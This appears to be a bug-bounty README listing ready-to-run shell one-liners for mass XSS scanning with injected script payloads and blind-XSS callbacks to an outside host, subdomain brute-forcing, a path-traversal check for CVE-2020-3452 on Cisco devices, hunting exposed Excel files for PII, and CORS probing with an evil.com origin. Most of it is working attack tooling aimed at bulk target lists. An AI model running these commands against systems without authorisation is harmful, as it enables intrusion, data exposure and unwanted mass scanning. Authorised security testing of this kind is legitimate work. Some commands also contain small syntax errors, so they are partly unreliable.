 # loops and one liners for bug bounty 
Credits goes to all those awesome researchers who uploaded these on Twitter



## One Liners for XSS

### You can also use DALFOX to send the result for xss

```bash
cat target_list| gau | egrep -o "http?.*" | grep "="| egrep -v ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -blind https://yours.xss.ht -o result.txt
```

### XSS without GF Patterns

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done

```

### To find XSS using DALFOX using go spider

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o output.txt
```

### Scan domains and subdomains from Bounty Targets data Using DalFox for XSS

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; | subfinder -dL domains.txt | httpx -silent -threads 500 | xargs -I@ dalfox url @


```






************************************************************************************************************************************

### Brute Force List of subdomains using FFuf

```bash
for url in ` cat $filename `; do ffuf -c -w path.txt -u $url/FUZZ -o result.json ; done >> result.txt
```

### While Loop For Subfinder To Discovery new Subdoamins

```bash
while true; do subfinder -dL domains.txt -all | anew subdomains1.txt | httpx | notify ; sleep 4600; done
```
Note: Before running the above command make sure you do the below first:
Run `subfinder -dL domains.txt -all >> subdomains1.txt`

Install nuclei, subfinder, Notify and anew

### One liner to fetch all URLs in scope of all public programs @_ayoubfathi_

```bash
curl -s https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/hackerone_data.json | jq -r '.[].targets.in_scope[] | select(.asset_type|contains("URL")) | .asset_identifier' |grep -v "*" | sort
```

If you are getting error jq not found then 
sudo apt-get install jq

(wildcard domains excluded)

### Find Subdomains using Subfinder and opens them on Firefox @payloadartists

```bash
subfinder -d $1 -silent -t 100 | httprobe -c 50 | sort -u | while read line; do firefox $line; sleep 10; done

```
### Using WaybackURL to find Excel File leads to PII Disclosure @M0_SADAT

```bash
gau http://hacked-site.com | waybackurls | grep ".xlsx"
```


### To find CVE 2020-3452 

```bash
while read domains.txt; do curl -s -k "https://$domains/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```







### CORS Missconfiguration @


```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

```



